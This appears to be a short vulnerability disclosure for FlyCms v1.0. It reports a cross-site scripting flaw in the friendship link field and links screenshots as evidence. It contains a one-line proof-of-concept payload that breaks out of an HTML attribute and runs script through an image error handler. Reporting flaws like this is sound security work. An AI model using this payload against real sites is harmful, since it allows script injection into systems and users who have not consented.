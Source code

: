 target:https://github.com/sunkaifei/FlyCms
version: v1.0

Xss exists at the friendship link

![1](https://github.com/Yostarrrrr/cms/assets/155064258/7f6f4c80-0e1d-400f-a3be-b0c16ea9095a)


Poc:

```
"><img src=1 onerror=alert(1)>
```

Successed

![2](https://github.com/Yostarrrrr/cms/assets/155064258/c2ea0bbb-ab4a-4c69-92b8-32b8a19b5977)
